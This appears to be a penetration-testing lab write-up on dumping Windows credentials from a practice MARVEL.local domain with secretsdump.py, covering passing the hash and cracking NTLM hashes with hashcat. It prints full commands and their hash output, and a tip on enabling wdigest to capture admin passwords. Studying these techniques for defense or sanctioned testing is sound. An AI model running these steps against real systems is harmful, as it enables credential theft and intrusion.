


# Dumping and Cracking Hashes

**Dumping passwords with `secretsdump.py`**

Whenever we get access to a machine, we want to dump the login credentials that
are stored on that machine for further use. We can run `secretsdump.py` either
with a password or a hash.

From `secretsdump.py --help`:

```
(...)
usage: secretsdump.py (...) target

positional arguments:
  target   [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)
(...)
```

With the known login credentials for fcastle (low privilege domain account on
`THEPUNISHER`) we can dump the secrets from that machine as follows:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/fcastle:"Password1"@10.0.2.6
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2f26d7b5041807b439cfc2be3b7bb066
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fd82b88db6c66dd3c2cef8f845ca2803:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-13 04:31:46)
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f: (2025-08-03 17:27:27)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
MARVEL\THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90
MARVEL\THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
MARVEL\THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
MARVEL\THEPUNISHER$:plain_password_hex:5a007900740052003500520066003500560036005600540036004900330034003f005b005b0023003f0042003a00230029006400770063006d0054003e003f0043006d003a003e00420071004a0062002800480047002d00350073003200640031007600500060007200540028006700530055006a0054004a0050003d00540031003f00240048007400480070007000560022002a0065002d00390061005d00280050003200690070003c0023003e004100520057003a0050002d00470035002000460022005c004f0022004c0021002000400041003300460062003b002e005700590022004e004a00770072002e00
MARVEL\THEPUNISHER$:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x70b810b6f3cea60a01c6a89983513809d549462f
dpapi_userkey:0x89d4bea229297fecdc2014e323945763f075a308
[*] NL$KM
 0000   38 E3 A7 85 C5 58 77 17  2F 56 EC 29 8A CF 67 1D   8....Xw./V.)..g.
 0010   FA 1B FD D7 34 19 60 CA  4C A7 C8 6F 2C 6B 9E C9   ....4.`.L..o,k..
 0020   A6 5C 01 EC 71 D1 07 C7  3D 5D 70 EC E9 C9 A7 74   .\..q...=]p....t
 0030   AD 34 51 33 26 AB 5A 52  3B C9 D3 3A 14 C7 9D 86   .4Q3&.ZR;..:....
NL$KM:38e3a785c55877172f56ec298acf671dfa1bfdd7341960ca4ca7c86f2c6b9ec9a65c01ec71d107c73d5d70ece9c9a774ad34513326ab5a523bc9d33a14c79d86
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

We always want to capture the SAM hashes, particularly those of any
administrator account and any other user, but not the `DefaultAccount`, `Guest`
and `WDAGUtilityAccount`. It is always worth capturing the respective hashes
since we never know where they might work. It is also worth to capture the
`DCC2` hashes and to try to crack them since we might get the password of a
domain administrator. If passwords on the system were stored in the `registry`,
we would see them in clear text towards the end of the output. There is an old
protocol named `wdigest` that runs by default on older Windows versions (up to
Windows 8 and Windows 2012 Server). In the meantime it is disabled by default.
If we got access to an older Windows machine with `wdigest` enabled and a
domain admin has been logged in to this machine, the password will show up at
the end of the output in clear text! Also passwords from machine auto-logons
will be displayed in clear text.

**Note:** It is possible to switch `wdigest` on if it is switched off, then wait
until an admin logs in, and to then steal his credentials (called a **watering
hole attack**). In a pentest, we need to make sure that we switch `wdigest` off
again before we leave, otherwise we have created a new vulnerability.

We can also dump secrets using a password hash instead of an actual password
with `secretsdump.py administrator:@10.0.2.4 -hashes <NTLM hash value>`. This
works on both user machines, `10.0.2.4 (SPIDERMAN)` and `10.0.2.6
(THEPUNISHER)`:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ cat 10.0.2.4_samhashes.sam 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
                                                                                                                            
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ secretsdump.py administrator:@10.0.2.4 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x54c9af8a432c81a94876693eea660525
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-03 18:38:30)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d
MARVEL\SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
MARVEL\SPIDERMAN$:des-cbc-md5:801cc729baf72994
MARVEL\SPIDERMAN$:plain_password_hex:660057005d004c0024007a0073006e0053005d00760024004c002a0056005b004b0056002e0037002b00570045003a00460048002f002300450038003a0023004400480051005e006400290077003f00790021003f00200040004e005c003a0020004f00230067005700380070007900680043003f006400220032005e0054005d00710058003d006d007400280031006a005300710041002a00360064007900700032003800610064002d0030006500620042004a0077005d0056003e00320039006e006c002300750056004b005a005700220079004d004000380065006300760031006a006b0036003e0035007a00
MARVEL\SPIDERMAN$:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc71286b734103cf91be8d2bb827f71564bd9670a
dpapi_userkey:0xb82bb65959427b2dcf15e8f26a5783149513427d
[*] NL$KM 
 0000   2E 5E FC 95 C5 DB 94 06  3F 3B 4E DD D6 53 C4 66   .^......?;N..S.f
 0010   4E A3 8C A1 CF E3 0A 5E  AE 8A BC 67 39 2B 5D 5F   N......^...g9+]_
 0020   7D EA C8 60 3B D4 04 FB  A0 C9 63 74 79 3B E1 BE   }..`;.....cty;..
 0030   83 46 B3 DC E8 91 8F 49  B9 6F 4E 6F 42 EC 4C FF   .F.....I.oNoB.L.
NL$KM:2e5efc95c5db94063f3b4eddd653c4664ea38ca1cfe30a5eae8abc67392b5d5f7deac8603bd404fba0c96374793be1be8346b3dce8918f49b96f4e6f42ec4cff
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

The workflow for lateral movement using `secretsdump.py` is as follows. It does
not require to crack a password at all. The key of the lateral movement is
**lateral - lateral - lateral**, until we find a way for vertical movement.
Always respray found credentials and check if we can find new avenues!




**Cracking passwords with `hashcat`**

We can copy the NT portion of an `NTLM` hash (the 2nd part of it), store it in
a file and try to crack it with `hashcat`.



To identify which type of hash we want to crack, we can use programs like
`hash-identifier` below or online tools. (`hash-identifier` did not work well
on this NT hash.)

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ hash-identifier 7facdc498ed1680c4fd1448319a8c04f                   
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
 HASH: ^C

        Bye!
```

Once we know that we want to crack an `NTLMv1` hash, we can search in the
`hashcat` documentation for the module that we need to use. For use on "bare
metal", the `-O` switch for optimization is advisable!

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ hashcat --help | grep NTLM
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System

┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ hashcat -m 1000 admin_pwd.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 PRO 4750U with Radeon Graphics, 1438/2941 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

7facdc498ed1680c4fd1448319a8c04f:Password1!               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 7facdc498ed1680c4fd1448319a8c04f
Time.Started.....: Sat Aug 16 08:31:59 2025 (1 sec)
Time.Estimated...: Sat Aug 16 08:32:00 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1599.3 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 176128/14344385 (1.23%)
Rejected.........: 0/176128 (0.00%)
Restore.Point....: 175104/14344385 (1.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ROSES -> 311331
Hardware.Mon.#1..: Util: 24%

Started: Sat Aug 16 08:31:39 2025
Stopped: Sat Aug 16 08:32:01 2025
```

Dumping and passing secrets as we have done in this video is a simple way of
getting around in the network without the need to get access to a shell at any
time! These attacks run undetected by most antivirus software, unless the
defense team is very alert.


### Further reading

* [Credential Access & Dumping](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)
* [Credential Dumping: WDigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
* [WDigest Clear-Text Passwords: Stealing More than a Hash](https://blog.netwrix.com/2022/10/11/wdigest-clear-text-passwords-stealing-more-than-a-hash/)
* [WDigest: Digging the dead from the grave](https://neuralhax.github.io/wdigest-digging-the-dead-from-the-grave/)
* [Credential Dumping: SAM](https://www.hackingarticles.in/credential-dumping-sam/)
* [Windows LSA secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
